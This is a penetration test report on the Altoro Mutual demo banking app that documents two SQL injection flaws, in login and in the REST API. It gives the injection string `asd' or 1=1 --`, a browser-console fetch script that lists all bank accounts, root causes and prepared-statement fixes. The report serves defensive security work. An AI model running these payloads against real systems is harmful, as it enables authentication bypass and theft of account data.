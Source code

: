 # Findings details

<!-- TODO: Severity after retest -->

## SQL injection in log in

- **Test CVSS severity**: critical
- **Test CVSS score:** 9.3 (`CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:N/SC:N/SI:N/SA:N`)
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/SQL_Injection>
- **Description of the vulnerability :** an attacker can bypass the correct username/password check in the login by having the username as `asd' or 1=1 --` and the password as anything.
- **Impact:** severe impact; successful exploitation gives the attacker the ability to bypass login
- **Recommendations:** use prepared statements instead of interpolating user inputs in the login SQL queries

## SQL injection in REST API

- **Test CVSS severity**: High
- **Test CVSS score:** 8.7 (`CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N`)
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/SQL_Injection>
- **Description of the vulnerability :** an attacker can list all bank accounts on the system by passing the username as `asd' or 1=1 --` in the rest api authentication token.
- **Impact:** severe impact; successful exploitation gives the attacker the ability to list all bank accounts on the system
- **Recommendations:** use prepared statements instead of interpolating user inputs in the listing bank accounts SQL queries and in the authentication queries

# Finding scenarios

<!-- Fixing steps, re-test steps -->

## SQL injection in log in

### Test steps

- Open /altoromutual/login.jsp
- Login with the following credentials (password can be anything):

![Log in injected](image-2.png)

- Observe that you are logged in as the first user in the system:

![After log in injected](image-1.png)

### Cause

`DBUtil.isValidUser()` method interpolates the user input in the SQL query; hence making the attacker able to execute arbitrary queries. The resulting query of the above description is: `SELECT COUNT(*) FROM PEOPLE WHERE USER_ID = 'asd' or 1=1 -- AND PASSWORD='anything'")`

## SQL injection in REST API

### Test steps

- Open /altoromutual
- Run the following script in your browser's dev tools' console (F12 > console):

  ```javascript
  username = "asd' or 1=1 --";
  password = 'asd';
  res = await (
    await fetch('/altoromutual/api/login', {
      headers: { 'Content-Type': 'application/json' },
      method: 'POST',
      body: JSON.stringify({
        username,
        password
      })
    })
  ).json();

  auth = res.Authorization;

  await (
    await fetch('/altoromutual/api/account', {
      headers: { Authorization: auth }
    })
  ).json();
  ```

- Observe how all bank accounts are returned:

![All bank accounts returned from REST API](image-3.png)

### Cause

- `DBUtil.getUserInfo()` method interpolates the user input in the SQL query; hence making the attacker able to execute arbitrary queries. The resulting query of the above description is: `SELECT FIRST_NAME,LAST_NAME,ROLE FROM PEOPLE WHERE USER_ID = 'asd' or 1=1 --`
- `DBUtil.getUserInfo()` returns the received username in the parameter rather than the one retrieved from the database (since it assumes they would be the same)
- `DBUtil.getAccounts()` is then called with the modified username and also interpolates the SQL query with the user input; hence the resulting query becomes `SELECT ACCOUNT_ID, ACCOUNT_NAME, BALANCE FROM ACCOUNTS WHERE USERID = 'asd' or 1=1 --` leading to returning all of the users in the database
